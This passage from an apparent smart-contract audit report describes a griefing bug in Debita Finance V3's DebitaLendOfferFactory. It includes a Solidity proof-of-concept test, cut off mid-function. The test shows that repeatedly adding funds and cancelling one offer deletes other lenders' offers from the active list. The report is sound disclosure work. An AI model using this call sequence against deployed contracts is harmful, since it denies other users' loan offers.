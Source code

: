 The protocol can be griefed by an attacker with a Lender position. The Attacker is able to delete all the lending offers in `DebitaLendOfferFactory.sol`. In consequence, all the deleted offers won't be able to be matched to create Loans with borrowers as their addresses get lost and won't be retrieved through [DebitaLendOfferFactory.sol::getActiveOrders()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L222C14-L222C29)

### PoC

The following tests are written in [BasicDebitaAggregator.t.sol](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/test/local/Aggregator/BasicDebitaAggregator.t.sol).

```solidity
    function testAuditGriefingCancelOffer() public {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory lendOrders = allDynamicData
            .getDynamicAddressArray(5);

        ratio[0] = 1e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        // Create 5 Lend Orders
        for(uint i = 0; i < 5; i++) {
          lendOrders[i] = DLOFactoryContract.createLendOrder(
              true,
              oraclesActivated,
              false,
              ltvs,
              1000,
              8640000,
              86400,
              acceptedPrinciples,
              AERO,
              oraclesPrinciples,
              ratio,
              address(0x0),
              5e18
          );
        }

        uint256 length = DLOFactoryContract.getActiveOrders(0, 5).length;
        assertEq(length, 5);
        DLOImplementation lender1 = DLOImplementation(lendOrders[0]);

        // We cancel our own offer. 
        lender1.cancelOffer();
        // But this can be called again if we addFunds, causing deletion of offers
        // from DLOFactoryContract at index 0. 
        IERC20(AERO).approve(address(lender1), 25e18);
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();
```